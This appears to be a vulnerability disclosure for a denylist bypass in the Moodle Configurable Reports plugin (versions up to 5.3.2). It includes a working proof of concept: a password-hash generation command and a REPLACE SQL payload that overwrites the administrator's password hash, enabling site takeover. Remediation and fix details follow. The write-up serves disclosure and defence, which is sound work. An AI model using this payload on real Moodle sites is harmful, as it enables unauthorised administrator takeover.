







## Summary
The Configurable Reports plugin (`moodle-block_configurable_reports`) is a custom report builder that lets you execute SQL, enforced as read-only by a keyword denylist (`sqlsecurity`) but it misses `REPLACE`. A report authoring user can use it to overwrite any row in the database, including the administrators password hash, for full site takeover. The plugin is widely used (16,655 active installations) and this bypass has existed for several years.

**CVSS 3.1:** `AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H`, 9.1 Critical

**CWE-184:** Incomplete Denylist

## Affected
`moodle-block_configurable_reports` <= 5.3.2, Configurable Reports plugin

## Details
The Custom SQL tab lets a report authoring user run raw SQL against the Moodle DB. `sqlsecurity` setting is meant to block insert/update keywords, but it fails to block `REPLACE <table> VALUES (...)` which overwrites the entire row.

This lets you overwrite any row in any table, including `mdl_user.password`, bypassing `sqlsecurity` entirely.

Within the plugins settings (`/blocks/configurable_reports/editcomp.php?id=<id>&comp=customsql`) `sqlsecurity` is on by default.


## Impact

A report-authoring user can overwrite the admin password hash, log in as admin, and fully control the site.

## Proof of Concept

Docker Compose Moodle, plugin at tag `5.3.2`. PoC is MySQL/MariaDB specific, since `REPLACE` only exists on that databases.

1. A plain read query runs fine.


2. Direct write rejected ("Not allowed words"):
   ```sql
   UPDATE prefix_user SET password = '...' WHERE username = 'admin'
   ```



3. Generate a target hash:
   ```bash
   php -r '$s=bin2hex(random_bytes(8)); echo crypt("NewPass123!","\$6\$rounds=10000\$$s\$"),PHP_EOL;'
   ```
4. Bypass using REPLACE:
   ```sql
   REPLACE prefix_user (id, auth, confirmed, policyagreed, deleted, suspended, mnethostid, username, password)
       VALUES (
           2, 'manual', 1, 0, 0, 0, 1, 'admin',
           CONCAT(CHAR(36),'6',CHAR(36),'rounds=10000',CHAR(36),'b8453883bb8f7a40',CHAR(36),
           'jzBcj2GLr.y46Qp4ak4xuF64txR/bhXZG4L4rGkFB.PAlaARPILqySG6f3tgd3EPh0tw2W1BOwe.O9ZJox.4m.')
       )-- -
   ```
   Saves and executes cleanly.



Viewing the report then throws `Call to a member function fetch_assoc() on true`, expected since `REPLACE` returns a boolean, confirming the write ran.



5. Confirmed `admin`'s password hash is overwritten.



6. Login as `admin` / `NewPass123!` succeeds.




## Root Cause

`sqlsecurity` is a denylist, not a whitelist and a denylist can't block every SQL statement that mutates data. It misses `REPLACE`.

## Remediation

Upgrade to 5.3.3. Run the plugin's queries through a dedicated read only DB connection.

## Fix (5.3.3)

Release: https://github.com/jleyva/moodle-block_configurable_reports/releases/tag/5.3.3
Moodle Announcement: https://moodle.org/mod/forum/discuss.php?d=483042

Released 2026-11-10, commit `bcbfbb6`. Adds a whitelist requiring queries to start with `SELECT` or `WITH`. Also adds escape-decoding (backslash and Postgres Unicode escapes) before the denylist check, closing a other bypasses where keywords were hidden behind escape sequences. `EXEC`, `EXECUTE`, and `UESCAPE` were added to the denylist.

Moodle HQ's notice (2026-11-10) confirms a critical vulnerability and recommends updating. No CVE assigned yet.

Juan Leyva (maintainer) closed this report as a duplicate a different bypass technique, but the same root cause, reported a few days earlier and fixed by the same release. Both Juan and I confirmed this `REPLACE` payload is rejected on 5.3.3.

## Conclusion
A trivial bypass of a read-only SQL filter in a widely used Moodle plugin let report authors take over the site. 5.3.3 fixes it with a whitelist, but the lesson stands: SQL has too many statements and encodings for a denylist to keep up with. Enforce read-only access at the database layer, and treat SQL authoring permission as equivalent to admin access.

## Conclusion
`REPLACE` is an ordinary SQL statement the denylist simply never accounted for. SQL isn't a fixed standard these DBMS extend the language a lot so a denylist can never fully cover it, while an attacker only needs to find the one gap it missed. The durable fix for a raw SQL feature is enforcing read-only at the database connection itself, not in application code. Until then, treat Custom SQL report access as equivalent to admin and even "fixed," read-only access alone still lets you dump session tokens, password hashes, and anything else in the DB by design.